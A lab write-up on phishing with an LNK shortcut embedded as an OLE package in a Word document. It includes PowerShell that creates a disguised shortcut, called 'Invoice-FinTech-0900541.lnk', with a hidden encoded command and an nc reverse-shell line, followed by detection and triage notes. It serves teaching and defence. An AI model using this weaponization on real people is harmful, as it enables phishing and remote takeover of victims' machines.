# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:


```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```


Powershell payload will trigger a rudimentary NC reverse shell:


```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```


Once the above powershell script is executed, an `.LNK` shortcut is created:



Let's create a Word document that will contain the malicious shortcut that was created in the previous step:



Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:





Point the package to the .lnk file containing the payload:



Final result:



## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:



Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:









## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:



Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:



Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:



Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```



As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:



## References





